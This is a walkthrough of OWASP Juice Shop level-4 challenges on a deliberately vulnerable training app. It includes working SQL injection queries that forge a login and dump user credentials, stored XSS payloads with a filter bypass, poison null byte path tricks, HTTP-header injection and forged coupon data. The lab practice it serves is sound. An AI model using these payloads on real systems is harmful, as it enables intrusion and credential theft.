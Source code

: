 # Level 4

## Christmas Special (Injection)
_Order the Christmas special offer of 2014._

You can find "Christmas special offer of 2014" in [application-configuration.json](misc/application-configuration.json).
By comparing with the list of products (`GET /api/Product`), you can determine that "Christmas special offer of 2014"
must have product ID `10`.

Knowing the ID, just add it to the cart:
```
POST /api/BasketItems/

{"ProductId":10,"BasketId":"1","quantity":1}
```

Finally, finish the order in your browser.

## Easter Egg (Broken Access Control)
_Find the hidden easter egg._

The egg is at `/ftp/eastere.gg`. However, it's protected by a file extension filter:
```
403 Error: Only .md and .pdf files are allowed!
```

The trick is exploiting [CWE-626: Null Byte Interaction Error (Poison Null Byte)](https://cwe.mitre.org/data/definitions/626.html)
> The poison null byte is frequently useful in path traversal attacks by terminating hard-coded extensions that are added to a filename.

Call `GET /ftp/eastere.gg%2500.md` (`%25` is URL encoded `%`):
```
"Congratulations, you found the easter egg!"
- The incredibly funny developers

...

...

...

Oh' wait, this isn't an easter egg at all! It's just a boring text file! The real easter egg can be found here:

L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==

Good luck, egg hunter!
```

## Ephemeral Accountant (Injection)
_Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user._

This is about SQL injection into _Login form_. If you already done the [Database Schema](level3.md#database-schema-injection)
challenge, you know the number of columns and data types of `users` table.
 
```
xxx' UNION SELECT 999, '', 'acc0unt4nt@juice-sh.op', 'password', 'accounting', '', '0.0.0.0', '/assets/public/images/uploads/default.svg', '', 1, '2020-08-15T18:22:49.161Z', '2020-08-15T18:22:49.161Z', null; --
```

The role must be the `accounting`!

## Expired Coupon (Improper Input Validation)
_Successfully redeem an expired campaign coupon code._

The first step is to take a look how coupons work. You can always get a valid coupon on
[Juice shop Twitter](https://twitter.com/owasp_juiceshop).

There's a [coupon for 09/2020](https://twitter.com/owasp_juiceshop/status/1301392070532308992):
```
q:<IrfFb4l
```

Log in, add some items into the basket and make an order using the coupon. The important request is:
```
POST /rest/basket/1/checkout

{"couponData":"cTo8SXJmRmI0bC0xNjAxMTYxMjAwMDAw","orderDetails":{"paymentId":"4","addressId":"3","deliveryMethodId":"1"}}
```

Decode `couponData` (Base64):
```
q:<IrfFb4l-1601161200000
```

There's the coupon code (`q:<IrfFb4l`), and today's timestamp (`1601161200000`).

Now let's look for some expired coupons.
 
At first, I was looking for an older coupon on Twitter but that does not work!
The challenge description states: "redeem an expired **campaign** coupon code".

Searching for `campaign` in source code points to:
```
WMNSDY2019: {
    validOn: 15519996e5,
    discount: 75
},
WMNSDY2020: {validOn: 1583622e6, discount: 60},
WMNSDY2021: {validOn: 1615158e6, discount: 60},
WMNSDY2022: {validOn: 1646694e6, discount: 60},
WMNSDY2023: {validOn: 167823e7, discount: 60},
ORANGE2020: {validOn: 15885468e5, discount: 50},
ORANGE2021: {validOn: 16200828e5, discount: 40},
ORANGE2022: {validOn: 16516188e5, discount: 40},
ORANGE2023: {validOn: 16831548e5, discount: 40}
```

There's `WMNSDY2019` with valid on `15519996e5` --> `1551999600000` -> `Thursday 7. March 2019 23:00:00`.

Ok, let's try to use it in `couponData`. Encode `WMNSDY2019-1551999600000` with Base64:
```
V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw
```

Intercept the checkout request and modify the coupon data with `V01OU0RZMjAxOS0xNTUxOTk5NjAwMDAw`.

Bingo, the discount is yours!

## Forgotten Developer Backup (Sensitive Data Exposure)
_Access a developer's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md` and obtain [package.json.bak](misc/package.json.bak).

## Forgotten Sales Backup (Sensitive Data Exposure)
_Access a salesman's forgotten backup file._

The same trick as in the [Easter Egg](#easter-egg-broken-access-control) challenge.

Call `GET /ftp/coupons_2013.md.bak%2500.md`
```
n<MibgC7sn
mNYS#gC7sn
o*IVigC7sn
k#pDlgC7sn
o*I]pgC7sn
n(XRvgC7sn
n(XLtgC7sn
k#*AfgC7sn
q:<IqgC7sn
pEw8ogC7sn
pes[BgC7sn
l}6D$gC7ss
```

## HTTP-Header XSS (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> through an HTTP header._

The first step is to find a place where an HTTP header is reflected back to the user.

I was suspicious from the beginning about the _Last Login IP_ page (`/#/privacy-security/last-login-ip`). The IP address
is usually taken from HTTP header [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For).

Next step is to understand how this last login IP is set.
 
Grepping through [main-es2015.js](misc/main-es2015.js):
```
grep 'rest/' misc/main-es2015.js
```

One of the results points to:
```
saveLastLoginIp() {
    return this.http.get(this.hostServer + "/rest/saveLoginIp").pipe(Object(s.a)(t => t), Object(l.a)(t => {
        throw t
    }))
}
```

This method is called during `logout`.

Log in, log out and let's try to manipulate the HTTP headers.

First attempt is obvious:
```
X-Forwarded-For: 1.1.1.1
```

No luck! 

Don't despair, there are more ways how to [spoof an IP address](https://portswigger.net/kb/issues/00400110_spoofable-client-ip-address).

`True-Client-IP` is the correct one. Just add this header to `GET /rest/saveLoginIp` request:
```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

If you really want to trigger the XSS (not necessary to solve the challenge):
1. Log in
2. Log out (triggers `GET /rest/saveLoginIp`)
3. Replay `GET /rest/saveLoginIp` with the extra header
4. Log in and go to _Last Login IP_ page

## Leaked Unsafe Product (Sensitive Data Exposure)
_Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous._

Similar to the challenge [Christmas Special](#christmas-special-injection), we can easily identify the product in 
[application-configuration.json](misc/application-configuration.json):
```json
{
    "name": "Rippertuer Special Juice",
    "description": "Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br/><span style=\"color:red;\">This item has been made unavailable because of lack of safety standards.</span>",
    "price": 16.99,
    "image": "undefined.jpg",
    "keywordsForPastebinDataLeakChallenge": [
      "hueteroneel",
      "eurogium edule"
    ]
}
```

Googling for the rarest fruits is not the solution, they are all safe.
So either google for `Rippertuer Special Juice` and find this paste https://pastebin.com/90dUgd7s
or get the answer from `keywordsForPastebinDataLeakChallenge` (guess this is not intentional though).

Submit `Hueteroneel and Eurogium Edule` into _Customer Feedback_ form.

## Legacy Typosquatting (Vulnerable Components)
_Inform the shop about a typosquatting trick it has been a victim of at least in v6.2.0-SNAPSHOT. (Mention the exact name of the culprit)_

This challenge follows the [Forgotten Developer Backup](#forgotten-developer-backup-sensitive-data-exposure) challenge.

Inspect [package.json.bak](misc/package.json.bak). It is for `v6.2.0-SNAPSHOT`!

I was hoping to find a malicious NPM package as described in [Malicious packages in npm](https://iamakulov.com/notes/npm-malicious-packages/)
(one of the challenge hints).

I ran `npm audit`(see [package-audit.json](misc/package-audit.json)) but didn't find anything suspicious.

Next, I tried to get something from the [Git history](https://github.com/bkimminich/juice-shop/compare/v6.1.0...v6.2.0) comparing `v6.2.0` to `v6.1.0`
and looking for changes in `package.json`.

All wrong. There is no real vulnerability :-(

Not sure what's the intended way of solving this challenge except for going through the dependencies one by one.

The typo-squatted NPM package is [epilogue-js](https://www.npmjs.com/package/epilogue-js).

Submit `epilogue-js` into the Feedback form.

## Nested Easter Egg (Cryptographic Issues)
_Apply some advanced cryptanalysis to find the real easter egg._

This challenge follows the [Easter Egg](#easter-egg-broken-access-control) challenge.
 
The goal is to decrypt:
```
L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==
```

This is rather easy.
 
1) Decode `Base64` (https://www.base64decode.org/):
```
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt
```

2) Apply [ROT13](https://en.wikipedia.org/wiki/ROT13) cipher (https://rot13.com/):
```
/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg
```

Call `GET /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`

## Poison Null Byte (Improper Input Validation)
_Bypass a security control with a Poison Null Byte to access a file not meant for your eyes._

The solution is described in [Easter Egg](#easter-egg-broken-access-control) challenge (_this was not a standalone
challenge until `v12.0.0`_).

## Reset Bender's Password (Broken Authentication)
_Reset Bender's password via the Forgot Password mechanism with the original answer to his security question._

Bender's security question is:
> Company you first work for as an adult?

[Bender](https://en.wikipedia.org/wiki/Bender_(Futurama)) is a well-known character from the
TV show [Futurama](https://en.wikipedia.org/wiki/Futurama).

The [wiki](https://en.wikipedia.org/wiki/Bender_(Futurama)) lists his occupations as:
- Suicide booth construction worker (formerly)
- Planet Express Bender / Chef

Read more about [suicide booths](https://futurama.fandom.com/wiki/Suicide_Booth):
> Suicide booths were invented somewhere between 2006 and 2008. Since 2008, America's most important brand of suicide booths is Stop'n'Drop. 

The correct answer is `Stop'n'Drop`

## Reset Uvogin's Password (Sensitive Data Exposure)
_Reset Uvogin's password via the Forgot Password mechanism with the original answer to his security question._

Uvogin's security question is:
> Your favorite movie?

This one is rather hard so let's start with some hints:
> People often reuse aliases online. You might be able to find something by looking online for Uvogin's name or slight variations of it based on his unique writing habits

"Unique writing habits" points to [leetspeak](https://en.wikipedia.org/wiki/Leet).
See that all comments from `Uvogin` are like `y0ur f1r3wall needs m0r3 musc13` or `0 st4rs f0r 7h3 h0rr1bl3 s3cur17y`.

Googling for `uv0gin` quickly reveals his [Twitter account](https://twitter.com/uv0gin).
Unfortunately, nothing useful is here.

The catch is that the important tweet was deleted (_I had no idea and had to look into solutions_).
However, you can recover it with a service such as [Wayback Machine](https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin):

![](images/uv0gin-movie.png)

The correct answer is `Silence of the Lambs`

## Server-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a server-side security mechanism._

I tried to use this payload in the _Customer Feedback_ form, but the payload was deleted:
```
Hello <iframe src="javascript:alert(`xss`)">
```

Resulting into:
```
Hello
```

Hopefully, it's just a simple string replacement. So let's try:
```
<<iframe src="javascript:alert(`xss`)">iframe src="javascript:alert(`xss`)">
```

Bingo, the nested ```<iframe src="javascript:alert(`xss`)">``` string is deleted resulting into the original payload!

## Steganography (Security through Obscurity)
_Rat out a notorious character hiding in plain sight in the shop. (Mention the exact name of the character)_

I have some experience with steganography, yet I was unable to crack this one without help.
I was missing a hint where to look, otherwise there are too many places.

The character is hidden in one of the carousel images (`/#/about`)
(_the only clue is that just one of the carousel images is a PNG, others are JPGs_).

This is the one:

![](misc/5.png)

Nothing suspicious on the first sight. You need a tool to extract the hidden data.
The usual problem is that you don't know which tool is the right one ...

I tried, with no luck, standard utilities such as:
- `strings`
- `exiftool`
- `identify -verbose`
- `binwalk`
- [Stegsolve](http://www.caesum.com/handbook/stego.htm)
- [Forensically](https://29a.ch/photo-forensics/)

However, the tool for this job is [OpenStego](https://www.openstego.com/index.html). I admit I used it in the past.

With _OpenStego_, you can extract the hidden image:

![](misc/J7RbRp1D5XDM5LINx0TdgeFX_o.png)

The last part is to find out the character name. Googling by the image is no use.
However, I was able to Google this picture with keywords `famous cartoon characters green monster ribs`:

![](misc/pickle-rick.jpg)

Picture comes from [Rick and Morty Season 3 Episode 3 Review](https://www.thecinemaholic.com/rick-and-morty-season-3-episode-3/).
You can read here that the hidden character name is `Pickle Rick`.

## User Credentials (Injection)
_Retrieve a list of all user credentials via SQL Injection._

This challenge follows the [Database Schema](level3.md#database-schema-injection) challenge:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+username,email,password,role,deluxeToken,lastLoginIp,profileImage,totpSecret,isActive+FROM+Users--
```

The result is in [misc/users.json](misc/users.json).